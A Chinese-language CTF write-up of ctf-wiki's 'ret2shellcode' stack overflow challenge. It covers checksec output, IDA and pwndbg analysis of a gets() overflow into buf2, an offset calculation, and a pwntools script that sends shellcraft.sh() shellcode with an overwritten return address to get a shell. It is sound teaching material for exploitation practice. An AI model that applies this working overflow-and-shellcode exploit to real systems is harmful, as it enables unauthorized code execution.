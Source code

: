 # ret2shellcode

> 出自 https://github.com/ctf-wiki/ctf-wiki 中的Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/hex-16   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2shellcode     (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别

- 使用自行构造的`sh`指令码
- TBD: 无法获取稳定shell，疑似与bbs段没有可执行权限有关，vmmap显示的内容与ctf-wiki上展示的不同

# checksec

- 使用的是从 https://github.com/slimm609/checksec.sh 安装的新版`checksec`

```bash
$ checksec --file=ret2shellcode
RELRO          STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols      FORTIFY Fortified Fortifiable  FILE
Partial RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  79) Symbols    No    0         3            ret2shellcode
$ checksec --version
checksec v2.4.0, Brian Davis, github.com/slimm609/checksec.sh, Dec 2015
Based off checksec v1.5, Tobias Klein, www.trapkit.de, November 2011
```

- 注意没有canary，没有NX（no-execute disabled）即没有禁止执行保护

# IDA Analysis

- IDA显示的main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

- 代码中将输入的字符串`s`复制到了`buf2`中，`buf2`在内存的`.bbs`段，该段存储没有初始化的和初始化为0的全局变量。`.bbs`段相关知识查看https://github.com/hex-16/Markdown_Note/blob/master/%5BProgram%5D_C_Cpp_Python_php_Latex_DataBase/%5Bc%5D_Basis_DataType_Pointer_DataArea_Heap_Stack_BitOperation_bool.md
- IDA中显示的`buf2`存储的区域：

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```



# gdb(pwndbg) Analysis

- 已安装pwndbg

```bash
$ chmod 777 ./ret2shellcode
$ gdb -q ret2shellcode
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ret2shellcode...
pwndbg> b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode

Breakpoint 1, main () at ret2shellcode.c:8
8       ret2shellcode.c: No such file or directory.
......................
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x8049000  0x804a000 r--p     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode
0xf7dca000 0xf7de7000 r--p    1d000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7de7000 0xf7f3c000 r-xp   155000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f3c000 0xf7fac000 r--p    70000 172000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fac000 0xf7fad000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fad000 0xf7faf000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7faf000 0xf7fb1000 rw-p     2000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb1000 0xf7fb3000 rw-p     2000 0
0xf7fcb000 0xf7fcd000 rw-p     2000 0
0xf7fcd000 0xf7fd1000 r--p     4000 0      [vvar]
0xf7fd1000 0xf7fd3000 r-xp     2000 0      [vdso]
0xf7fd3000 0xf7fd4000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd4000 0xf7ff1000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff1000 0xf7ffc000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 28000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

- 注意` 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode`这是`buf2`所在的区域
- 这里和ctf-wiki上显示的不一致，`0x804a000  0x804b000  rw-p`这一段并没有执行(`x`)权限





```c
$ gdb ./ret2shellcode -q
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2shellcode...
pwndbg> b *0x080485AF
Breakpoint 1 at 0x80485af: file ret2shellcode.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode
No system for you this time !!!
abcdabcd123456789

Breakpoint 1, 0x080485af in main () at ret2shellcode.c:15
15      ret2shellcode.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0xffffd3bc ◂— 'abcdabcd123456789'
 EBX  0x0
 ECX  0xf7faf580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0
 ESP  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
 EIP  0x80485af (main+130) —▸ 0xfffe6ce8 ◂— 0x0
────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485af <main+130>    call   strncpy@plt <strncpy@plt>
        dest: 0x804a080 (buf2) ◂— 0x0
        src: 0xffffd3bc ◂— 'abcdabcd123456789'
        n: 0x64

   0x80485b4 <main+135>    mov    dword ptr [esp], 0x8048680
   0x80485bb <main+142>    call   printf@plt <printf@plt>

   0x80485c0 <main+147>    mov    eax, 0
   0x80485c5 <main+152>    leave
   0x80485c6 <main+153>    ret

   0x80485c7               nop             ..............
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
01:0004│      0xffffd3a4 —▸ 0xffffd3bc ◂— 'abcdabcd123456789'
02:0008│      0xffffd3a8 ◂— 0x64 /* 'd' */
03:000c│      0xffffd3ac ◂— 0x0
04:0010│      0xffffd3b0 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x29f3c
05:0014│      0xffffd3b4 —▸ 0xffffd43c —▸ 0xffffd464 ◂— 0x0
06:0018│      0xffffd3b8 ◂— 0x2
07:001c│ eax  0xffffd3bc ◂— 'abcdabcd123456789'
────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0  80485af main+130
   f 1 f7de8e46 __libc_start_main+262
```

- s的地址：`0xffffd3bc`
- `ebp`栈帧基地址：`0xffffd428`,  s相对于`ebp`的偏移为 `0xffffd3bc - 0xffffd428` = `-0x6c`

# Exploit

- 获取的shell不稳定，疑似与前面显示的`0x804a000  0x804b000  rw-p`这一段没有执行(`x`)权限有关

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.binary = './ret2shellcode'  # context(os='linux', arch='i386')
print(context)

sh = process('./ret2shellcode')
# shellcraft.i386.linux.sh()  #shellcraft.sh()
shellcode = asm(shellcraft.sh())  # type(shellcraft.sh()): str 为汇编代码 # 构造自己的sh汇编码
print("shellcode: ", type(shellcode), shellcode)
buf2_addr = 0x0804A080
payload = shellcode.ljust(0x6c + 4, b'A') + p32(buf2_addr)
sh.sendline(payload)
# b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80AA...A\x80\xa0\x04\x08'
print("sendline: ", type(payload), len(payload), " : ", payload)
sh.interactive()
```






